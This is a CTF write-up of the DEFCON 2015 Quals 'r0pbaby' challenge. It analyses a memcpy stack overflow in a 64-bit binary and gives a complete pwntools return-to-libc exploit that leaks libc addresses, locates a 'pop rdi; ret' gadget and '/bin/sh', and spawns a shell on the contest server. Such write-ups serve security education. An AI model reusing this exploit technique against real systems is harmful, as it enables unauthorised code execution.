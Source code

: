 ```yaml
---
title: 'DEFCON CTF 2015 Quals -- r0pbaby'
date: 2015-05-23 22:38
tags:
  - DEFCON
  - CTF
  - ROP
  - Pwnable
  - Python
categories:
  - write-ups
author: bruce30262
---
```

**Category:** Baby's First
**Points:** 1
> r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me:10436

<!-- more -->

64 bit ELF. No stack guard, but it has NX & PIE protection.  
The service will give you a menu first:  
> Welcome to an easy Return Oriented Programming challenge...
> Menu:
> 1) Get libc address
> 2) Get address of a libc function
> 3) Nom nom r0p buffer to stack
> 4) Exit

Th first one will print out the `libc.so.6`'s address, which contains the **real** libc base address. The second one will ask you to input a libc function's symbol, and print out the function's address. The third one will ask you to input a number(string length) and a string.  

After we check the binary with IDA Pro, we found the following informations:

```c
v0 = (signed __int64)nptr; // our input buffer
v1 = (signed __int64)&savedregs; // dest
memcpy(&savedregs, nptr, v7);
```

Our input will be stored at `nptr` first, then it'll be memcpy to `savedregs`. Let's check the location of `savedregs`:  
```c 
char nptr[1088]; // [sp+10h] [bp-440h]@2
__int64 savedregs; // [sp+450h] [bp+0h]@22 // on rpb
```

Right on the `rbp`!  
So everytime we choose `3)` and input something, it'll be copy to `rbp`, which means we can overwrite the return address. Since the binary has the **NX protection**, we better try the **return-2-libc** attack.  

The key point is to find a useful gadget. At first I try to leak the libc's base address, and attempt to guess the libc's version so I can calculate the `/bin/sh` and `pop rdi, ret` gadget. But I end with failure, since there's no other memory leakage vulnerability. At this moment, my teammate **bananaapple** propose a solution: **How about we find a gadget that's inside a function?**  

For instance, if we want to find a gadget `pop rdi, ret`, since `pop rdi, ret` = `5f c3` in machine code, we'll just have to find a functions that contains 2 bytes data `5f c3`, then we can calculate the offset and get the gadget's address. 

Using the aforementioned method, we quickly found that `5f c3` was at `_IO_proc_open` + 0x34d and `/bin/sh` was at `_libc_intl_domainname` + 0x0242. With these informations, we can now construct a ROP chain and exploit the service:

```python 
#!/usr/bin/env python

from pwn import *
import sys
import time

#HOST = "localhost"
HOST = "r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me"
PORT = 10436
#LIBC_PATH = "/lib/x86_64-linux-gnu/libc-2.19.so"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32

r = remote(HOST, PORT)

if __name__ == "__main__":

    print r.recvuntil(": ")

    # get system address
    r.sendline("2")
    r.recv(1024)
    r.sendline("system")
    s = r.recvuntil("Exit\n: ")
    print s
    system_addr = int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    log.success("system_addr: "+hex(system_addr))

    # get _IO_proc_open address to calculate [pop rdi, ret]'s address
    r.sendline("2")
    r.recv(1024)
    r.sendline("_IO_proc_open")
    s = r.recvuntil("Exit\n: ")
    print s
    open_addr = int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    pop_rdi_ret = open_addr + 0x34c + 1
    log.success("pop_rdi_ret: "+hex(pop_rdi_ret))
 
    # get _libc_intl_domainname address to calculate /bin/sh's address
    r.sendline("2")
    r.recv(1024)
    r.sendline("_libc_intl_domainname")
    s = r.recvuntil("Exit\n: ")
    print s
    domain_addr = int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    bin_sh = domain_addr + 0x242
    log.success("bin_sh: "+hex(bin_sh))

    payload = "AAAAAAAA" # rbp
    payload += p64(pop_rdi_ret) # pop rdi, ret
    payload += p64(bin_sh) # char* point to /bin/sh
    payload += p64(system_addr) # system

    # send the payload
    r.sendline("3")
    r.recv(1024)
    r.sendline(str(len(payload)))
    r.sendline(payload)
    
    r.interactive()

```

Flag: `W3lcome TO THE BIG L3agu3s kiddo, wasn't your first?`
